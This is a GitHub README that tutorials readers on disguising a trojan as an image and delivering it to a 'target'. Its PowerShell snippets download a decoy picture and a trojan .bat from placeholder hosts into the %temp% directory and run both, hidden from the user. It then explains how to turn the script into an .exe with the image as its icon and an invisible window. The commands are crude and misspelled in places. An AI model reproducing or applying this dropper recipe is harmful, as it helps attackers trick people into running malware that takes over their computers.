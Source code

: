 <h1 align="center">Welcome to Repositorie of how to add Trojan in backdoor👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg)](https://www.python.org/)


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)

<p align =center >
  <img src="https://media.tenor.com/-r6mKisZ_ycAAAAM/tokusatsu-ultraman.gif" height='288' width='512' />
</p>

<h2 align="center"> Dont try this at Home, School,Or any other public place!!! </h2>
<br>

<h1 align="center"> Introduction to Trojan</h1>

<p>
A Trojan Horse Virus is a type of malware that downloads onto a computer disguised as a legitimate program. The delivery method typically sees an attacker use social engineering to hide malicious code within legitimate software to try and gain users' system access with their software.
  <P/>

  <h2> If you don't know how to make trojan you need to see my previous repository in that I have explain fully how to make trojan then after that you need to use this repository to add trojan at backdoor. </h2>

### 🏠 [How to make trojan ](https://github.com/AnandKatariya/Create-Trojan)

## But all apart in this we will learn how to add trojan in backdoor from powershell.

<h2>Go to browser and select the image which you want to send to target.</h2><br>
<h2>Then open powershell and direct the powershell to desktop.</h2><br>

## Direct to desktop 
```sh
cd .\Desktop\
```

Then after this it will be redirected to desktop and after that paste the command but before pasting just edit website.com to ehich image you want to send to target paste that URL.

## Downlode you image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
```
Paste this into your powershell and you will able to downlode the image you can see it on desktop, But if you need to add trojan into backdoor you need to add som new command to codeline.

<h2> If you have trojan file add it but if you dont have you need to create it, If you dont know to to create it just check my last repo.. and you will learn. After creating the trojan you need to save it as .bat file.  </h2>
<br>
<h3> Now here we will place the trojan file inside the image so we need to add the command in powershell is,</h3>
  
  ## Add trojan in image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```
<br>
<h3> But this is not the way if you will downlode the virus file on desktop user will know this so we need to go to temp directory. So </h3>

 # To add file in temp
```sh
cd %temp%
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```

after this you need to save this and and you need to save this in all file not in text document and after that save as extension as matrix-trojan.bat
you need to save it as .bat it is mandatory. But you will see that file not looking properly it looking like any suspious file so we need to modify it. So we all need to do is 

## Downlode bat to exe converter

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Backdoor-Trojan/16545e42c093f37c828f551632a0067c4cdfce69/logo/bat-to-exe-file.svg)](https://github.com/AnandKatariya/Backdoor-Trojan/blob/main/Bat_To_Exe_Converter_x64.exe)


<h2> After install open the file or drag and drop it in the Bat to Exe converter and run the file then select the icon as the thumnail of the same image but before select the icon go to png to ico converter online and convert the image in ico file and then add it as logo and change the exe format into invisible after this you will convert it and thats it your are done.</h2>

